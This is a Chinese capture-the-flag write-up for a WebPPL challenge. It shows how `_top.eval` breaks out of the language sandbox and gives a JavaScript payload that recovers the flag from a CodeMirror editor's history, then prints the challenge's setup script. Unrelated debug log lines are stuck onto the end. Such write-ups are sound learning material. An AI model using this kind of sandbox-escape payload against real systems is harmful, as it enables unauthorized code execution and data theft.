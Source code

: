 > Note that since JavaScript functions must be called as methods on an object, it is not possible to call global JavaScript functions such as `parseInt()` directly. Instead, such functions should be called as methods on the built-in object `_top`. e.g. `_top.parseInt('0')`
>
> [文档](https://webppl.readthedocs.io/en/master/language.html#calling-javascript-functions)

按这个说法，下面的代码就可以实现`eval`：

```js
var eval = function(code){return _top.eval(code)}
```

接下来只要在环境中拿flag即可。

前端部分，程序先在代码框里运行了`console.log("flag{xxxxxx}")`，然后运行我们的代码。

这里虽然看上去flag的代码被清空了，但其实历史记录还在。为了提升注意力，我打开了Heap snapshot功能，搜了一下`flag{`，发现似乎在一个CodeMirror对象里面，但全局变量里却没有这个对象，那要怎么办呢？

问了一下GPT，GPT告诉我可以试试：

```javascript
var editor = document.querySelector('.CodeMirror').CodeMirror;
```

通过这行代码可以取出绑定在HTML组件上的`CodeMirror`对象，然后经过一通研究，发现了`getHistory`方法，于是可以写出payload：

```javascript
var eval = function(code){return _top.eval(code)}
var code = "var edi = document.querySelector('.CodeMirror').CodeMirror;" +
         "var his = edi.getHistory();" +
         "var flag = '';" +
         "his.done.forEach(function(entry) {" +
         "if (entry.changes) {" +
         "entry.changes.forEach(function(change) {" +
         "if (typeof change.text === 'object') {" +
         "if (change.text.join('').includes('flag{')) {" +
         "flag = change.text.join('');" +
         "}" +
         "}" +
         "});" +
         "}" +
         "});" +
         "document.title = flag;";
eval(code)
```

### 后端开发

给了一个shell脚本：

```bash
#!/bin/bash
set -e

chmod 600 /flag1
chmod 600 /flag2

echo '#include<stdio.h>' > ./src.c
echo 'void main() { char s[99]; puts(fgets(s, 99, fopen("/flag2", "r"))); }' >> ./src.c
gcc -o /read_flag2 src.c
chmod 4755 /read_flag2

useradd sandbox
cd /tmp
su sandbox -c 'webppl code.wppl' > /tmp/output.txt 2>&1
```


 [2024:09:30:17:14:29]: Debug: --begin keyboard packet--
 [2024:09:30:17:14:29]: Debug: --begin keyboard packet--